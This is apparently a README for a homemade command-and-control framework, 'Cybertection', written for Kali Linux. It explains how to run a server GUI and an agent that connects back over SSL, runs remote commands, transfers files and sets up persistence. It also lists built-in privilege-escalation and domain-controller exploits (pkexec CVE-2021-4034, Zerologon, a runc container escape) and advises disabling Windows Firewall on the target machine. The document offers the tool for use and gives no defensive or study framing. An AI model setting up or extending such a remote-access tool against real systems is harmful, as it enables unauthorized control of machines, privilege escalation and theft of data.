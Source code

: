 # cybertection_server

Example Workflow
Kali Terminal 1: python3 cybertection_server.py.
Kali Terminal 2: python3 cybertection_agent.py.
GUI: Select agent, type whoami, click "Send"—see root.
Exploit: Choose "CVE-2021-4034," click "Run Exploit"—check output.
Log: Click "View Log," filter "cve" to review.
_______________________________________________________________________________________________________________

HOW TO USE


Copy and paste code in a text editor or ide

You must change the ipadress and port number in line 11.


Using the Framework
GUI Overview
Connected Agents: List of IPs/ports of active agents.
Output Area: Shows real-time logs (e.g., connections, command responses).
Command Input: Type commands to send to a selected agent.
Exploit Menu: Dropdown with exploits.
View Log: Opens a filterable log window.

Commands
Select an Agent:
Click an agent in the "Connected Agents" list (e.g., ('127.0.0.1', 54321)).

Send Basic Commands:
Type in "Command" box, click "Send":
whoami: Returns username (e.g., root on Kali).
ls (Linux) or dir (Windows): Lists directory contents.
cd /tmp: Changes directory (adjust for Windows, e.g., cd C:\Temp).
sysinfo: Shows OS and machine details.

File Transfer:
Upload: upload /path/to/file.txt (e.g., upload /home/kali/test.txt).
Download: download file.txt (saves as downloaded_file.txt on server).

Run Exploits:
Select exploit from dropdown, click "Run Exploit":
Elevate (Windows): Tries UAC elevation (Windows-only).
Inject (Windows): Simulates notepad injection (Windows-only).
CVE-2021-4034 (Linux): Escalates via pkexec (Kali, unpatched < Jan 2022).
CVE-2020-1472 (Zerologon - Windows): Resets DC password (needs impacket, DC setup).
CVE-2019-5736 (runc Escape - Linux): Container breakout (needs runc container).
Output appears in GUI and log.

View Logs:
Click "View Log".
Type in filter (e.g., "cve" to see exploit attempts).
Logs saved to cybertection_log.txt.
Exit:
Type exit in command box to disconnect an agent.
Close GUI to shut down server.
______________________________________________________________________________________________________
Troubleshooting [ERROR 111]
If you still see "Connection refused":

Server Not Listening:
netstat -tuln | grep 4444: No output means server didn’t bind.
Fix: Change port (e.g., port=5555 in both files), rerun.
Firewall:
sudo ufw status: If "inactive," use iptables -L and iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.
Wrong IP:
Same machine: Keep 127.0.0.1.
Remote: Use Kali’s IP (e.g., 192.168.1.100).
SSL:
Test without: Comment wrap_socket lines in both files, rerun.


If "Connection Refused" Persists

Port Conflict: Change port=4444 to 5555 in both files, update firewall.

Firewall: sudo iptables -L (if ufw off), allow 4444: sudo iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.

IP: If agent’s on Windows , use Kali’s IP, not 127.0.0.1.

SSL: Test without SSL (comment out wrap_socket lines in both).
___________________________________________________________________________________________________________
TROUBLESHOOYING

Why Commands Aren’t Sending
Agent Not Selected: The GUI requires selecting an agent from the "Connected Agents" list before sending works.
Command Queue Issue: The command_queue might not be updating or clearing properly.
Threading Lock: The handle_client thread might be stuck waiting for get_command_from_gui.
Socket Error: The client socket might’ve closed silently, breaking communication.
GUI Event: The "Send" button’s logic might not trigger correctly.
__________________________________________________________________________________________________________-

How to Run on Kali Linux
Prerequisites
Python: sudo apt install python3.
OpenSSL: sudo apt install openssl.
Tkinter: sudo apt install python3-tk.
Impacket: pip3 install impacket (for CVE-2020-1472).
GCC: sudo apt install build-essential (for CVE-2021-4034, CVE-2019-5736).
Steps
Generate SSL Certs:
Run server first: python3 cybertection_server.py.
Creates server.crt and server.key if missing.

Start Server:
python3 cybertection_server.py (GUI opens).
Check terminal: Should say "started on 0.0.0.0:4444".
Verify: netstat -tuln | grep 4444.

Allow Port:
sudo ufw allow 4444/tcp (if ufw is active; check with sudo ufw status).

Run Agent:
Same machine: python3 cybertection_agent.py (uses 127.0.0.1).
Different machine: Edit server_host to Kali’s IP (e.g., 192.168.1.100 via ifconfig), then run.

Debug Output:
Agent: Look for "Attempting connection" and "Connected!" or error details.
Server: Check log in GUI or cybertection_log.txt.
__________________________________________________________________________________________________________
Prerequisites
on Kali Linux:

Python 3: Should be pre-installed (python3 --version to check).
Tkinter: For the GUI—install with sudo apt install python3-tk.
OpenSSL: For SSL certs—install with sudo apt install openssl.
Impacket: For CVE-2020-1472—install with pip3 install impacket.
GCC: For CVE-2021-4034 and CVE-2019-5736—install with sudo apt install build-essential.
Net-tools: For netstat—install with sudo apt install net-tools.
_________________________________________________________________________________________________________

CONTINUED 
Running the Framework

Scenario 1: Server and Agent on Same Machine (Kali Linux)
Start the Server:
In a terminal:
bash
Wrap
Copy
python3 cybertection_server.py
GUI titled "Cybertection Server" opens.
Terminal shows: [2025-02-23 ...] Cybertection C2 Server started on 0.0.0.0:4444 (SSL).
Verify: netstat -tuln | grep 4444 (should show 0.0.0.0:4444 listening).
Start the Agent:
In a new terminal (same directory):
bash
Wrap
Copy
python3 cybertection_agent.py
Output:
text
Wrap
Copy
[*] Attempting connection to 127.0.0.1:4444
[+] Connected to Cybertection C2 at 127.0.0.1:4444 (SSL)
GUI: "Connected Agents" list shows ('127.0.0.1', <random_port>).
Scenario 2: Server on Kali, Agent Elsewhere (e.g., HP Envy Windows)
Find Kali’s IP:
ifconfig (or ip addr): Look for inet under your network interface (e.g., eth0 or wlan0), like 192.168.1.100.
Update Agent:
Edit cybertection_agent.py:
python
Wrap
Copy
if __name__ == "__main__":
    agent = CybertectionAgent(server_host="192.168.1.100")  # Replace with Kali’s IP
    threading.Thread(target=agent.run).start()
    agent.persist()
Copy server.crt to the agent machine’s directory (optional, since CERT_NONE is used).
Start Server on Kali:
Same as above: python3 cybertection_server.py.

Start Agent on Windows:
Install Python 3 on Windows (if not already): Download from python.org.
Run: python cybertection_agent.py.
Ensure Windows Firewall allows outbound to 4444 (or disable temporarily: Control Panel > Windows Defender Firewall > Turn off).
